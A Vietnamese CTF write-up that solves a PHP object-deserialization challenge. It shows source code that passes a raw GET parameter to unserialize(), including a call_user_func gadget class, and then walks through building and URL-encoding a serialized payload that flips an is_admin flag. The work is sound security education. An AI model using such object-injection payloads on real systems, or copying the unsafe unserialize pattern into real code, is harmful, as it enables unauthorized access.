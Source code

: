# CTF Cây nhà lá vườn :D
##  PHP Serialize CTF 
  Link : http://45.122.249.68:10001/

  Source code của bài:

  ```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
  ```

## Ý tưởng của bài 
  ```php
  class User{
  private $name;
  private $is_admin = false;
  public function __construct($name){
      $this->$name = $name;
  }
  public function __destruct(){
      if($this->is_admin === true){
          echo "hi admin, here is your flag";
      }
  }
}
  ```

  Trong hàm __detruct() của class User sẽ kiểm tra điều kiện is_admin === true thì web sẽ in ra kết quả "hi admin, here is your flag". Vậy chỉ cần gán giá trị cho is_admin = 1 là xong. ez :D
  
  ```php
    if(isset($_GET['code']))
    {
        unserialize($_GET['code']);
    }
    else
    {
        highlight_file(__FILE__);
    }
  ```
  Ở đây web sẽ nhận 1 parameter **code** sau đó sẽ unserialize giá trị truyền vào để tiếp tục thực thi. Do giá trị code này không được kiểm tra trước khi thực thi,nên chỉ cần tạo 1 payload serialize sao cho chuyển giá trị is_admin =1 là giải được bài này. 

## Create Payload
  Sử dụng vscode để debug và lệnh php -S 127.0.0.1 9000 code.php để debug trên localhost
 
  <img src="https://imgur.com/nzePFET.png"/>
  
  Tạo thêm 1 đoạn code để tạo serialize payload 

  ```php
  <?php 
    class User{
        private $name;
        private $is_admin = false;
        public function __construct($name){
            $this->$name = $name;
            var_dump($name);
        }
        public function __destruct(){
            if($this->is_admin === true){
                echo "hi admin, here is your flag";
            }
        }
    }  

 	// Create a object
    $a = new User("CaLopChacChuaCoAiLamDuocDau");
    
    // Print a after serialize
 	echo serialize($a);
?>
  ```

  Chạy đoạn code trên : **php -f exploit.php** Kết quả sẽ được 1 chuỗi sau khi serialize

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Sửa lại chuỗi **s:14:"Useris_admin";b:1;**

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Do biến $name và $is_admin là 2 biến được đặt ở private nên khi serialize sẽ tạo ra Username và Useris_admin. Do format khi serialize của PHP
  
  Nhưng khi thực thi payload này kết quả sẽ **không** trả về. Do việc deserialize bị lỗi 

  <img src="https://imgur.com/zyQvjMv.png" />
  
  Vì vậy cần sửa lại payload 1 chút để khi deserialize sẽ cho ra kết quả mong muốn

  ```
  O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```
## Kết quả 
  Thực hiện chèn payload trên vào biến code 

  ?code=O:4:%22User%22:3:{s:4:%22name%22;N;s:8:%22is_admin%22;b:1;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;}

  Kết quả ez :D 

  <img src="https://imgur.com/phCU6LU.png" />

## Tài liệu tham khảo
  PHP Classes and Object : https://www.php.net/manual/en/language.oop5.php

  PHP serialize : https://www.php.net/manual/en/function.serialize.php

  Youtube about POP (Babytalk) : https://www.youtube.com/watch?v=DDxRn3CNdeQ


  


